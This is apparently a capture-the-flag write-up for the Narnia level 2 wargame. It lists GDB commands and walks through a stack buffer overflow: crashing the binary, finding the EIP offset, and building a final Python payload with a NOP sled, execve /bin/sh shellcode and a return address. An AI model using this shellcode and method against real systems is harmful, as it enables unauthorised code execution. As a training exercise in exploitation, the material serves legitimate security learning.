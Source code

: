 **GDB Commands**

----

* gdb < program_name > - open a program in gdv
* x/100wx < register_name > - examine 100 words in hexadecimal in a given register.
* info registers - display information about registers in a running program
* b  *< memory_address_in_hex> - set a breakpoint at a memory address
* c - continue execution in the program
* s - step into the program
* r - run a program, can take in an argument 
* disass - disassemble a function



**Walkthrough**

---

1. Crashing the program with a large input

   ```
   ./narnia2 $(python -c"print 'A'*200")
   ```

2. Investing with gdb

   ```
   > gdb narnia2 #opens program in gdb
   > info functions #checking the functions
   > disass main #disassemble the main function
   > b *0x0804849d
   > r $(python -c "print 'A'*200")
   > info functions #checking the registers
   > x/100wx $esp #check 100 words in the stack
   >c #continue into the program execution
   ```

3. Finding the EIP

   ```
   /usr/bin/msf-pattern_create -l 200
   /usr/bin/msf-pattern_offset -l 200 <value of eip register>
   ```

4. Controlling the EIP

   ```
   r $(python -c "print 'A' *132 + 'B'*4 ") #eip gets overridden with 4 Bs , in hex that is 42424242
   ```

5. Redirect to the top of the stack

   ```
   r $(python -c "print 'A' *132 + 'address of the stack' ") 
   ```

6. Use a NOP sled and a shellcode, final exploit:

   ```
   import struct
   
   eip = struct.pack("<I",0xffffd640)
   NOP_sled = b"\x90" * 100
   shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
   padding = b"A"*(132 - len(NOP_sled) - len(shellcode)) 
   payload = NOP_sled + shellcode + padding + eip
   print(payload)
   ```

   7. Get us a shell


